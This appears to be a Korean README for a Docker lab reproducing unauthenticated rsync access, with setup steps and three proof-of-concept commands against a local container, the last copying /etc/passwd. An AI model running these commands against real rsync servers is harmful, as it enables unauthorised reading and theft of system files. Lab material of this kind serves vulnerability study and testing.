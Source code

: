 # rsync 무단 접근 취약점

rsync는 SSH와 rsync를 이용하여 원격 파일 전송을 지원하는 Linux용 데이터 백업 도구입니다.
만약 대상에 rsync가 활성화가 되어있고, 이에 대해 ACL(Access Control Line)이나 별도의 비밀번호가 설정되어있지 않다면 무단으로 해당 machine에 접근하여 파일을 읽고 쓸 수 있습니다

## Container 환경 구축
```
docker compose build
docker compose up -d
```
Container가 올라가는 시간이 좀 길어서 넉넉잡아 10분정도 기다리셔야 합니다

## PoC
모든 PoC 코드는 shell script로 동일하게 작성이 되어있기에 해당 스크립트를 이용하셔도 됩니다.
poc1.sh
```
rsync rsync://localhost:873/
```

![](1.png)

poc2.sh
```
rsync rsync://localhost:873/src/
```
위 코드를 이용하면 Container(machine)의 / 경로의 모든 파일들을 출력한다.

![](2.png)

poc3.sh
```
rsync -av rsync://localhost:873/src/etc/passwd ./
```
위 코드를 이용하면 Container(machine)의 passwd 파일을 현재 directory에 passwd 파일을 생성하여 기록한다.

![](3.png)

## 이유

